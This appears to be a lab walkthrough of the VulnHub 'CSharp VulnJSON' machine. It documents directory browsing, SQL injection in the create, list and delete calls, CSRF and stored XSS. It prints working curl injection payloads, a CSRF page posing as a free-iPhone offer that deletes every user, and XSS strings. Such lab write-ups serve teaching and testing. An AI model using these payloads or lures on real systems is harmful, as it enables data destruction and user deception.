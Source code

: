 ### CSharp VulnJSON

Another web challenge, [CSharp VulnJSON](http://www.vulnhub.com/entry/csharp-vulnjson,134/) seemed to be basically about the web exploitations mostly with SQL injections and XSS. After starting the VM, the first thing I did was a nmap scan.

```shell
nmap 192.168.168.54

Starting Nmap 6.47 ( http://nmap.org ) at 2016-02-24 11:20 CST
Nmap scan report for 192.168.168.54
Host is up (0.0036s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 0.08 seconds
```

I loaded the site on the browser and it was a simple application. I saw that it was a simple page that would send XHR to `Vulnerable.ashx` with varieties of payloads. Basically, it seems to be the entrypoint for create, select and delete of CRUD.

The box seems to have a lot of issues with varied levels of criticality.

#### Bug 1 : Directory browsing

![bin dir](images/csharp-vulnjson-1.png "bin dir browsing enabled")

#### Bug 2 : Create user that can not be deleted from application

You can include a double quote in your username (eg. `"samar`) and the `Delete User` button won't work for this username.

#### Bug 3 : Delete all users via SQLi

You can delete all of the users via SQLi.
```shell
$ curl 'http://192.168.168.54/Vulnerable.ashx' -XPOST -H 'Host: 192.168.168.54' -H 'Accept-Encoding: gzip, deflate' -H 'DNT: 1' -H 'Content-Type: application/json; charset=UTF-8' -H 'Referer: http://192.168.168.54/Default.aspx' -d "{\"username\":\"' OR 1=1--\",\"method\":\"delete\"}"
{ "success" : True }
```

#### Bug 4 : SQLi on insert (Create user)

The first step was to try concatenation operators of various databases and quickly it turned out it was running Postgresql. The following worked:
```shell
$ curl 'http://192.168.168.54/Vulnerable.ashx' -XPOST -H 'Host: 192.168.168.54' -H 'Accept-Encoding: gzip, deflate' -H 'DNT: 1' -H 'Content-Type: application/json; charset=UTF-8' -H 'Referer: http://192.168.168.54/Default.aspx' -d "{\"username\":\"sam'||'ar\",\"password\":\"samar\",\"age\":null,\"line1\":\"\",\"line2\":\"\",\"city\":\"\",\"state\":\"\",\"zip\":null,\"first\":\"\",\"middle\":\"\",\"last\":\"\",\"method\":\"create\"}"
```

It created a user with username `samar`. The `||` (double pipe) is the concatenation operator in Postgresql. We can leverage this power to do several other stuffs. Some examples follow:

```shell
$ curl 'http://192.168.168.54/Vulnerable.ashx' -XPOST -H 'Host: 192.168.168.54' -H 'Accept-Encoding: gzip, deflate' -H 'DNT: 1' -H 'Content-Type: application/json; charset=UTF-8' -H 'Referer: http://192.168.168.54/Default.aspx' -d "{\"username\":\"'||current_database()||'\",\"password\":\"samar\",\"age\":null,\"line1\":\"\",\"line2\":\"\",\"city\":\"\",\"state\":\"\",\"zip\":null,\"first\":\"\",\"middle\":\"\",\"last\":\"\",\"method\":\"create\"}"
```

Now, if we perform list users, we know that we've a new user called `vulnerable_json` which is in fact result of `current_database()`. We can run several other calls such as current_user, user, etc. The only limit is your imagination and valid syntax while injecting your payloads. See this [cheatsheet](http://pentestmonkey.net/cheat-sheet/sql-injection/postgres-sql-injection-cheat-sheet) and [this](http://www.sqlinjectionwiki.com/Categories/4/postgresql-sql-injection-cheat-sheet/) for more details.

#### Bug 5 : SQLi in select (list users)

```shell
$ curl 'http://192.168.168.54/Vulnerable.ashx' -XPOST -H 'Host: 192.168.168.54' -H 'Accept-Encoding: gzip, deflate' -H 'DNT: 1' -H 'Content-Type: application/json; charset=UTF-8' -H 'Referer: http://192.168.168.54/Default.aspx' -d "{\"username\":\"' union all select version()--\",\"method\":\"list\"}" --compressed
[{"username":"PostgreSQL 9.3.9 on x86_64-unknown-linux-gnu, compiled by gcc (Ubuntu 4.8.4-2ubuntu1~14.04) 4.8.4, 64-bit"}]
```

#### Bug 6 : Cross Site Request Forgery

The app is also vulnerable to CSRF which is obvious. A sample file like below which can delete all the users without user's consent proves this:

```html
<!DOCTYPE html>
<head>
<script>
function deleteUser() {
	var data = {
		username: '\' OR 1=1--',
		method: 'delete'
	};

	var xhr = new XMLHttpRequest();
	xhr.open('post', 'http://192.168.168.54/Vulnerable.ashx', false);
	xhr.send(JSON.stringify(data));
}
</script>
</head>
<body>
<h1>We're offering free iphone to first 10 entries. Please hurry by providing your information.</h1>
<form method="post" action="" id="frmLogin">
<div>Your e-mail for notification</div>
<div><input type="text" name="txtUsername" id="txtUsername" /></div>
<div><input type="submit" name="btnSubmitNewUser" value="Submit participation" onclick="deleteUser(); return false;" id="btnSubmitNewUser" /></div>
</form>
</body>
```

#### Bug 7 : Cross Site Scripting

A simple addition of user with username `<script>alert(1)</script>` results in stored XSS for the API in case the API is used by someone else to populate list of users. The storage is done without any sanitization and escaping of the input.

For this app, you can trigger XSS via the following username:
```html
<img src="" onclick="alert(1)" />
```

Well, you can perform more advanced exploitations with above examples but basically I am lazy to do anything further than identifying the bugs (which is pretty obvious with this one).

Game Over!
